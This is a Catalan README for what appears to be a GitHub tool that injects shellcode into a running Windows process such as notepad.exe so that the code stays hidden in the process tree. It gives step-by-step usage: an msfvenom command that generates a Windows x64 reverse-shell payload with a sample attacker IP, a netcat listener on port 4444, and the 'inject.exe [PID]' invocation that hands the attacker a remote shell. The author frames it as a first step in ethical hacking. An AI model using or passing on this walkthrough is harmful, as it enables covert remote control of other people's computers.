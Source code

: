## Inject
Simple windows process code injection

## POC
El repte està en injectar un tros de codi executable dins un procés que ja es troba en execució. D'aquesta manera, el codi queda ocultat dins l'arbre de processos, com un fil d'execució dins un procés conegut, com per exemple, explorer.exe, notepad.exe, calc.exe, etc. 

## Descripció
En el repositori trobem una solució en c++ que mitjanant l' API de windows injecta codi en un procés que rep per la línia de comandes. El codi a injectar es troba en una variable **shellcode** en format de Bytecode. En l'exemple he utilitzat un petit codi que executa una shell inversa (reverse shell) de 6u bits (x64). Aquest codi, pot ser qualsevol cosa que se’ns passi pel cap. Però, ha de ser petit, quan més petit millor, ja que s'injecta en la memòria del procés. Podem trobar molt codi d'exemple per internet, un bon lloc és
https://www.exploit-db.com/shellcodes.

## Cas d'ús
El ByteCode (https://es.wikipedia.org/wiki/Bytecode) que utilitzat jo, no és funcional en qualsevol estació de treball, ja que està fet a mida perquè es connecti a un ordinador remot que jo he utilitzat.
Per fer la prova, calen dos ordinadors. Jo he utilitzat un Kali/linux per generar el ByteCode i per obrir un Netcat escoltat en un port (4444), on si tot va bé és connectarà el procés injectat.

Per generar el ByteCode he utilitzat una utilitat **msfvenom** del Framework Metasploit (https://www.metasploit.com/), instal.lat a Kali. Té moltes opcions, es digne d'estudi. Pot fer sortides de codi per diferents llenguatges i tecnologies. Pel cas que ens toca:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP] LPORT=[port] -f c

Ex:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.28.123.152 LPORT=4444 -f c
```
La sortida la assignem a la variable **shellcode**. Tot seguit en un terminal de la Kali, engeguem el Netcat escoltant en el port triat.
```
nc -llvp 4444
```
Aquí, si tot va bé, és on ens trobarem una shell de windows de PC on hem injectat el codi.

Ara el en PC windows, on hi tenim el nostre programa **inject.exe**, engeguem per exemple el **notepad.exe**. Amb l'explorador de processos de windows, mirem el número de procés del **notepad.exe** (No tanquem l’arbre de processos, perquè això podem observar els fils d'execució que té). Tot seguit executem:
```
inject.exe [PID Notepad.exe]
Ex:
inject.exe 12345
```
Si tot ha anat bé, al Kali tenim una shell del windows amb els permisos d'usuari que té el procés del Notepad.exe a l'estació Windows. I a l'arbre de processos, un fil penjant del **Notepad**

A partir d'aquí imaginació (no vull donar idees). És un pas necessari si et vols iniciar en el Hacking Ètic.

**La cançó** (Sempre escolto música quan escric, programo, penso en solucions...)
https://www.youtube.com/watch?v=bwNzGT-UX7c



